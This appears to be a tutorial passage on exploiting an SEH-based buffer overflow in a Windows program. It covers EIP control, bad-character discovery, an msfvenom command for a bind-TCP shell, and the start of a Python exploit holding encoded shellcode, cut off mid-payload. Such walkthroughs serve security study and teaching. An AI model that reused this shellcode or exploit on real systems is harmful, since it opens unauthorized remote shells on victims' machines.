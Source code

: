 ![img](images/seh-based-overflow-29.png)

Now that we are certain that the exception handler was replaced with our controlled data, let's allow it to function by pressing `Shift + F9`.

The program attempted to execute `0x41414141`, which corresponds to `AAAA`. Therefore, it has been confirmed that we can control the `EIP` by overwriting the Structured Exception Handler.

As the SEH value was `0x41414141`, upon handling the exception (passing it to the program), the execution was moved to `0x41414141`, which is an invalid address, resulting in a crash.

Before we implement real shellcode here, let’s try to detect
bad characters. We will try the usual buffer of all ASCII
characters:

```python
badchars = (
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)
```

After relaunching program again and again, detected bad chars are:

`\x00\x0a\x0d\x20\x25`

So, a bind-tcp shellcode was generated via following command:

```bash
msfvenom -p windows/shell_bind_tcp exitfunc=thread -b "\x00\x0a\x0d\x20\x25"
```

On the following, you will find the exploit code:

```python
import sys, socket

#badchars 0x0a 0x00 0x0d 0x20 0x25
sc = ("\xb8\x32\x57\xbd\x31\x2b\xc9\xb1\x51\xda\xcf\xd9\x74\x24\xf4\x5a"
"\x31\x42\x0e\x83\xc2\x04\x03\x70\x5d\x5f\xc4\x88\x0b\x74\x6a\x98"
"\x35\x75\x8a\xa7\xa6\x01\x19\x73\x03\x9d\xa7\x47\xc0\xdd\x22\xcf"
"\xd7\xf2\xa6\x60\xc0\x87\xe6\x5e\xf1\x7c\x51\x15\xc5\x09\x63\xc7"
"\x17\xce\xfd\xbb\xdc\x0e\x89\xc4\x1d\x44\x7f\xcb\x5f\xb2\x74\xf0"
"\x0b\x61\x5d\x73\x51\xe2\xc2\x5f\x98\x1e\x9a\x14\x96\xab\xe8\x75"
"\xbb\x2a\x04\x8a\xef\xa7\x53\xe0\xcb\xab\x02\x3b\x22\x0f\xa0\x30"
"\x06\x9f\xa2\x06\x85\x54\xc4\x9a\x38\xe1\x65\xaa\x1c\x9e\xeb\xe4"
"\xae\xb2\xa4\x07\x78\x2c\x16\x91\xed\x82\xaa\x35\x99\x97\xf8\x9a"
"\x31\xa7\x2d\x4c\x71\xba\x32\xb7\xd5\xba\x1d\x98\x5c\xa1\xc4\xa7"
"\xb2\x22\x0b\xf2\x26\x31\xf4\x2c\xde\xec\x03\x39\xb2\x58\xeb\x17"
"\x9e\x35\x40\xc4\x72\xf9\x35\xa9\x27\x02\x69\x4b\xa0\xed\xd6\xf5"
"\x63\x87\x06\x6c\xeb\x33\xd2\xfe\x2b\x6c\x1c\x28\xd9\x83\xb3\x81"
"\xe1\x74\x5b\x8d\xb3\x5b\x75\x9a\x34\x75\xd6\x71\x34\xaa\xb1\x9c"
```